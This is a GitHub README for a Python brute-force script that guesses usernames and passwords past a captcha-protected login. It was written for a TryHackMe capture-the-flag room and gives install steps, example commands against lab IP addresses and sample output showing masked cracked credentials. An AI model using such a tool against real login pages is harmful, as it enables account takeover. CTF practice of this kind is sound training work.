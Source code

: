 # Capture! ByPass (TryHackme CTF)

<p align="center"><img src="images/capture-logo.png" alt="vkm-logo" style='width:150px;height:150px;'></p>


<div align="center">
    <img src="https://img.shields.io/badge/Code%20By%2014Wual-8338ec">
    <img src="https://img.shields.io/github/downloads/14wual/capture/total">
    <img src="https://img.shields.io/github/license/14wual/capture">
    <img src="https://img.shields.io/tokei/lines/github/14wual/capture">
    <img src="https://img.shields.io/github/stars/14wual/capture">
</div>

**Author**: Carlos Padilla (14wual)

**Download**: https://github.com/14wual/capture#Install

**Room Title**: Capture this!

**Room Link**: [URL](https://tryhackme.com/room/capture!)

**Room Author**: [toxicat0r](https://tryhackme.com/p/toxicat0r) && [https://tryhackme.com/p/tryhackme](tryhackme)


# Table of Contents

1. [Download](https://github.com/14wual/capture#Install)
2. [Usage](https://github.com/14wual/capture#Usage)
3. [Usage Example](https://github.com/14wual/capture#Example)
4. [Output](https://github.com/14wual/capture#Output)
5. [License](https://github.com/14wual/capture/LICENSE)


# Install

```
git clone https://github.com/14wual/capture!/
cd capture!/ && pip install -r requirements.txt

```

# Usage

```bash
┌──(wual㉿kali)-[~/capture]
└─$ python bypass.py --help  

usage: bypass.py [-h] [-p PASSLIST] [-u USERLIST] --url URL

CaptureByPass Args

options:
  -h, --help            show this help message and exit
  -p PASSLIST, --passlist PASSLIST
  -u USERLIST, --userlist USERLIST
  --url URL 
```

`--url URL` Is Required.

## Examples

```bash
python bypass.py --passlist passwords.txt --userlist usernames.txt --url 10.10.10.10
```

<details>
  <summary>See More</summary>

```bash
python bypass.py -p passwords.txt --u usernames.txt --url 10.10.10.10/login
```

```bash
python bypass.py -u usernames.txt --url http://10.10.10.10
```

```bash
python bypass.py -p passwords.txt --url http://10.10.10.10/login
```

```bash
python bypass.py --url http://10.10.10.10/login # http://10.10.10.10 or 10.10.10.10
```
    
</details>

# Output

```
==============================================
Capture!ByPass         Carlos Padilla (14wual)
==============================================
   _____                _                   _ 
  / ____|   /\         | |  ByPass Script  | |
 | |       /  \   _ __ | |_ _ __ _   _  ___| |
 | |      / /\ \ | '_ \| __| '__| | | |/ _ \ |
 | |____ / ____ \| |_) | |_| |  | |_| |  __/_|
  \_____/_/    \_\ .__/ \__|_|   \__,_|\___(_)
                 | |                          
                 |_| (Code by 14Wual)
==============================================
Author Web: https://14wual.github.io/
CTF Room: https://tryhackme.com/room/capture
==============================================
rURL: http://10.10.206.228
==============================================
PassList Size: 1567
UserList Size: 878
==============================================
[Info] Started at: 30:01/2024 - 00:34:02
[Info] Captchat enabled.
[*] Trying Username: hunter with the test password.
...
[Info] Discovered username: n******.
[*] Trying Password: michaela for n******.
...
[Info] Discovered password: s***
==============================================
[CREDENTIALS] n******:s*******
==============================================
[Info] Opening New Browser Tab

```